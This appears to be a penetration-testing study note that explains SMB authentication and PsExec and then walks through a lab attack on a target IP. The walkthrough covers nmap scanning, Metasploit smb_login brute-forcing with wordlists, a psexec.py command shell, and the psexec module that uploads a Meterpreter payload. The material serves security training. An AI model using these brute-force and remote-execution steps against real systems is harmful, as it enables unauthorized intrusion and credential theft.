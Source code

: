 SMB
- SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals (printers and serial ports) between computers on a local network (LAN).
- SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
- SAMBA is the open source Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.

SMB Authentication
- The SMB protocol utilizes two levels of authentication, namely:
	- User Authentication
	- Share Authentication
- User Authentication - Users must provide a username and password in order to authenticate with the SMB server in order to access a share.
- Share Authentication - Users must provide a password in order to access a restricted share.
- Both of these authentication types utilize a challenge response authentication system.
![[Pasted image 20241029180021.png]]
- Its not required for somebody undergoing the authentication process to try to access a share, valid user credentials for a known Windows host can be used to authenticate your identity to the SMB server.
	- Step 1 - A client trying to authenticate to an SMB server would essentially send an authentication request with the local username of its user.
	- Step 2 - The server will return a response telling the client to encrypt a random string with the user's hash.
	- Step 3 - The client will then encrypt the string with the user's hash and will then send a response with the encrypted string back to the server.
	- Step 4 - The server will then verify if the encrypted string value that they have, which is obtained from the user's hash on the system, matches the encrypted value sent in the client's response.
	- If the values do match, access is granted to the client, and if they don't, the authentication request is denied.

PsExec
- PsExec is a lightweight telnet-replacement, developed by Microsoft, that allows the user to execute processes on remote windows systems, using any of the given system's user credentials.
- PsExec authentication is performed via SMB.
- We can use the PsExec utility to authenticate with the target system legitimately, and run arbitrary commands on the target system, or launch a remote command prompt.
- It is very similar to RDP, however instead of controlling the remote system via GUI, commands are sent via CMD.

SMB Exploitation With PsExec
- In order to utilize PsExec to gain access to a Windows target, we will need to identify legitimate user accounts and their respective passwords or password hashes.
- This can be done by leveraging various tools and techniques, however, the most common technique will involve performing an SMB login brute-force attack.
- We can narrow down our brute-force attack to only include common Windows user accounts like:
	- Administrator
- After we have obtained a legitimate user account and password, we can use the credentials to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell.

Practical Demonstration
- `sudo nmap -sV -sC 10.2.24.221`
- The results from the script scan inform us that the SMB version deployed on the target system is SMB v2, and message signing is enabled but not required.
- What this essentially means is that we can authenticate with this system via PsExec.
- Now we will perform a brute-force attack using Metasploit in order to obtain valid user credentials, which will help us log onto the SMB service via PsExec.
	- `service postgresql start && msfconsole`
	- `search smb_login`
	- `use auxiliary/scanner/smb/smb_login`
	- `options`
	- `set RHOSTS 10.2.24.221`
	- `set RPORT 445`
	- In the case that the target system is part of a domain, we can specify it using the `SMBDomain` option.
	- We can use the `SMBUser` and `SMBPass` options if we already have a set of credentials and want to verify if they are valid.
	- `set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt`
	- `set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
	- `set VERBOSE false`
	- `run`
- Using the credentials we have gained from the brute-force attack, we can now try to authenticate using PsExec.
	- The PsExec binary is a windows executable file, so it is not natively executable on Linux, as such we are using a python implementation of PsExec, known by the name of `psexec.py`.
	-  `psexec.py Administrator@10.2.24.221 cmd.exe`
	- We should now have a CMD session on our terminal, and be able to execute Command Prompt commands.
		- `whoami`
- Using PsExec to authenticate to a system and start a CMD session is a very effective penetration testing technique, since we are essentially just using valid credentials to log on to the system, and not performing any form of exploitation, of any inherent vulnerabilities, to gain access to the target system. It is a stealthier method than using Metasploit's inbuilt exploit module for authenticated code execution using PsExec, `exploit/windows/smb/psexec`.
- We can also use the `psexec` Metasploit module, `exploit/windows/smb/psexec`, to authenticate using PsExec, in this scenario, the Metasploit exploit module would first connect to the target system, upload a Meterpreter payload, and execute it to provide us with a Meterpreter session.
- While using the Metasploit exploit module, we have to be cognizant of the fact that the module uploads a malicious payload on the target system, and that as such, any antivirus solution running on the target system could detect it and flag the uploaded payload as a malicious file.
	- `service postgresql start && msfconsole`
	- `search psexec`
	- `use exploit/windows/smb/psexec`
	- `options`
	- `set RHOSTS 10.2.24.221`
	- `set RPORT 445`
	- `set SMBUser Administrator`
	- `set SMBPass qwertyuiop`
	- `set LHOST 10.10.5.2`
	- `exploit`
	- Meterpreter Session
		- `sysinfo`
		- `whoami`
		- `getuid`